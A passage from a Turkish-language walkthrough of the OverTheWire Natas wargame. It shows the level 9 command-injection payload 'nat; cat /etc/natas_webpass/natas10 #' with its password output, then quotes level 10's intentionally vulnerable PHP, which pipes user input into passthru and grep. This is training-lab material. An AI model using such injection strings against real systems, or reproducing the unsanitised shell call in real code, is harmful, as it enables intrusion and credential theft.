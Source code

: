 **#** ifadesiyle kendisinden sonra gelen bölüm command line olarak tanınması sağlanmıştır.

```terminal
nat; cat /etc/natas_webpass/natas10 #
```

```
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu")


Natas Level 9 → Level 10
======

+ Username: natas10
+ URL:      http://natas10.natas.labs.overthewire.org

Hint;
- sourcecode

```terminal
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```

